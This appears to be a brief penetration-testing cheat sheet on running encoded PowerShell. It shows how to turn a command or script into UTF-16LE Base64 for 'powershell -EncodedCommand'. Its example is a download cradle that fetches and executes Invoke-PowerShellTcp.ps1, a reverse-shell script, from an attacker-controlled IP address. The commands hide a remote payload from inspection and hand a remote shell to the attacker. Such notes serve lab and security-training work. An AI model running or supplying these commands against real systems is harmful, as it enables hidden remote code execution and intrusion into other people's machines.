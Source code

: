 # Run Encoded Powershell


## Convert Powershell command to UTF-16LE

```bash
echo -n "IEX (​New-Object Net.Webclient).downloadstring(​'http://10.10.14.13:6666/Invoke-PowerShellTcp.ps1')" | iconv --to-code UTF-16LE
```

## Convert Powershell command to UTF-16LE and Base64

```bash
echo -n "IEX (​New-Object Net.Webclient).downloadstring(​'http://10.10.14.13:6666/Invoke-PowerShellTcp.ps1')" | iconv --to-code UTF-16LE | base64 -w 0
```

## Convert Powershell file to UTF-16LE and Base64

```bash
cat powershelltcp.ps1 | iconv --to-code UTF-16LE | base64 -w 0
```

## Convert Powershell file to UTF-16LE and Base64 and copy to clipboard

```bash
cat powershelltcp.ps1 | iconv --to-code UTF-16LE | base64 -w 0 | xclip -selection clipboard
```

## Run with Powershell -encodedcommand

```bash
powershell -EncodedCommand <encodedcommand>
```
